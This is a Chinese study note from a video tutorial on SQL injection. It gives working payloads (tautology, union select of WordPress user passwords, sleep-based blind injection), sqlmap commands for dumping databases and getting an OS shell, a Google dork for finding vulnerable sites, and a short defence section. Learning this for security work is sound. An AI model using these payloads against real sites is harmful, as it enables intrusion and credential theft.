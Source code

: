 ```yaml
---
title: Security-4
description: SQL注入
---
```


## 前言

本文是观看[此视频](https://www.bilibili.com/video/BV1g4411Y7Y4/)时的笔记

## 原理

### 基本思路

如果服务器使用字符串拼接的方法处理 SQL 查询，就可以实现 SQL 注入。

比如说，服务器使用`"SELECT * FROM users WHERE id='$id'"`，我们可以令`id`为`' or 1=1 --`，使 SQL 语句变为：

```sql
SELECT * FROM users WHERE id='' or 1=1 --'
```

其中`'`用来闭合字符串中的引号，`or 1=1`用来确保`where`的结果一定为真，`--`确保后面的字符串都是注释而被忽略

这样我们就可以获取所有用户的信息

如果我们在注入的变量里面使用`join`/`union`，就可以获得其他表的信息。可能需要一些字面值进行字段填充

### 常用 SQL 命令

- `show database`查看数据库
- `show tables`查看表
- `desc <table>`查看表详情
  - `desc mysql.user`
  - `desc wordpress.wp_users`
- `show create table <table>`查看建表语句
- `select * from books where id = '' and 1=2 union select user_login, user_pass, '1', '2' from wordpress.wp_users`
  - 使用`and 1=2`使原本的 SQL 查询不返回任何结果，然后`union`右边的 SQL 查询，实现仅返回右边的结果
  - 使用字面值`'1', '2'`填充字段
- `select * from information_schema.tables`查询表结构
  - 因为联合查询中不能使用`show database`/`show tables`，所以需要通过`information_schema`库来查表信息
  - 也可以`select database()`查看数据库信息
- `select database()`/`select version()`/`select user()`查询所有数据库名/数据库版本信息/当前用户名

### 字段填充

如果要猜测原本 SQL 语句中的字段数量，可能需要使用如下 SQL 语句：

```sql
select * from xxx union select 1;
select * from xxx union select 1, 2;
select * from xxx union select 1, 2, 3;
select * from xxx union select 1, 2, 3, 4;
select * from xxx union select 1, 2, 3, 4, 5;
select * from xxx union select 1, 2, 3, 4, 5, 6;
...
```

查到字段数量之后，实际查询中就可以使用字段填充来增加字段数量，或者字段拼接减少字段数量：

```sql
select a, 1, 2 from xxx;
select a, b, concat(c, '.', d) from xxx;
```

### 注入方式

- 基于错误的注入
  - 如果输入错误的 SQL 语句，服务器报错，说明服务器进行的是 SQL 拼接，而不是参数化查询，存在注入点
  - 所以基于错误的注入，主要用来探测注入点
- 基于布尔注入
  - 发现注入点后，使用`' or 1=1 --`的方式，使原本的布尔逻辑失效
  - 然后使用字段填充，查到原本 SQL 语句的字段数量
- 基于 Union 注入
  - 通过 union 来查询其他表的内容
- 基于时间盲注
  - 盲注的意思是服务器并不返回 SQL 查询结果
  - 使用时间函数`sleep(5)`。如果服务器等待了 5 秒，则说明存在注入点
  - 示例：`select * from xxx where id = '1' and sleep(5) --'`
    - 注意：使用`and`的时候，`and`前面的条件需要为 true，才会触发 sleep

### sqlmap

自动化注入工具

- `sqlmap -h`查看帮助
  - `sqlmap -hh`查看高级帮助
- `-u`指定需要注入的 URL
  - 使用谷歌搜索`inurl:.php?id=`可以查询带有疑似 SQL 注入点的网站
- `-g`使用谷歌帮忙搜索注入点
- `-c`通过配置文件指定注入点
- `--method`指定 HTTP 方法
- `--random-agent`随机`User-Agent`
- `--dbms`手动指定数据库类型
- `--batch`自动回答`Y`
- `-p`指定 SQL 注入的参数，逗号隔开
  - `--skip`指定跳过的参数，逗号隔开
- `--cookie`指定 Cookie
- `--sql-shell`获得 SQL SHELL，但是并不是所有 SQL 命令都可以被执行
  - `--sql-query`指定 SQL 语句查询
- `--os-shell`尝试获取操作系统 SHELL，可能会失败
- `--os-cmd`使用操作系统命令
- `-o`一键优化，相当于如下三个优化
  - `--keep-alive`使用持久连接
  - `--null-connection`不接受 HTTP Body，常用于盲注
  - `--thread`指定线程数量
- `--hex`使用 16 进制传输信息。不会影响最终的结果输出，但是效率可能更高
- `--fresh-queries`忽略缓存
- `--count`查询表的行数

其他注意事项：

- sqlmap 注入成功之后会把连接信息缓存在本地，执行其他命令的时候就可以直接调用了。毕竟每次尝试注入可能会花十几分钟
- sqlmap 还会自带一些哈希字典，可以把常见的哈希密码还原为明文，且支持自定义字典
- 有些站点需要登录，所以发请求的时候要带上 Cookie，否则会被重定向

示例：

```bash
# 首次尝试注入
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username

# 如果成功，就可以使用其他参数获取信息了
# 比如使用`--dbs`获得所有数据库的信息
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --dbs
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --users
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --current-user
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --current-db
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' --tables
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' -T 'table' --columns
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' -T 'table' --dump
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username -D 'database' -T 'table' -C 'username, password' --dump
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --dump-all
sqlmap -u 'https://xxx.com/index.php?id=123' --batch --dbms=mysql -p username --dump-all --exclude-sysdbs
```

## 流程

1. 判断是否有 SQL 注入漏洞（注入点）
2. 判断操作系统、数据库、WEB 服务器的信息
3. 获取数据库信息，包括管理员信息和拖库
4. 加密信息破解
5. 提权，获得 sql-shell、os-shell，登录服务器

## 防御

- 给数据库用户设置最小权限，防止用户查系统表/权限之外的表
- 使用参数化查询，避免字符串拼接
